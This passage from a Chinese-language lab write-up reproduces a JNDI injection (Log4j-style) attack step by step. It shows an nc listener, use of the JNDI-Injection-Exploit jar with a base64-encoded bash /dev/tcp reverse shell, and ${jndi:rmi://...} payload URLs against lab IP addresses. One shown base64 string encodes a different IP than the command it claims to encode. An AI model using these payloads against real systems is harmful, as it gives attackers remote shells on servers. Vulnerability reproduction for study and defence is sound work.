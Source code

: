 攻击机kali（192.168.70.14） 开始nc监听7777端口  

```python
nc -lvvp 7777
```

![image-20240923144937083](https://image.201068.xyz/assets/36.漏洞复现/image-20240923144937083.png)

### 5.开启jndi服务器

##### JNDI-Injection-Exploit

github：https://github.com/welk1n/JNDI-Injection-Exploit

下载地址：https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

#### 构造

利用`jndi`注入工具在攻击机上开启jndi服务器

```python
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjcwLjQvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.70.4
```

![image-20240923144755804](https://image.201068.xyz/assets/36.漏洞复现/image-20240923144755804.png)

> ```python
> bash -i >& /dev/tcp/192.168.70.4/7777 0>&1    				##反弹shell命令
> YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxLjEyOC83Nzc3IDA+JjE=      ##base64编码
> ```
>
> 这个安装在kali上面的jndi服务器是利用`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`来启动起来的，
>
> 启动参数包括-C是执行的bash命令，-c参数后面是执行的具体命令，
>
> 用双引号引起来 -A 指服务器的IP
>
> 这里注意已经把反弹shell命令用base64编码

### 6.利用payload开始攻击，获得反弹shell 

利用生成的payload进行攻击

```python
http://192.168.70.14:26315/hello?payload=${jndi:rmi://192.168.70.4:1099/kbp9m6}

http://192.168.70.14:26315/hello?payload=%24%7bjndi%3armi%3a%2f%2f192.168.70.4%3a1099%2fb2jca9%7d
```

访问网址 出现ok

![image-20240923145642271](https://image.201068.xyz/assets/36.漏洞复现/image-20240923145642271.png)

监听界面出现如下,提示表明获得反弹shell

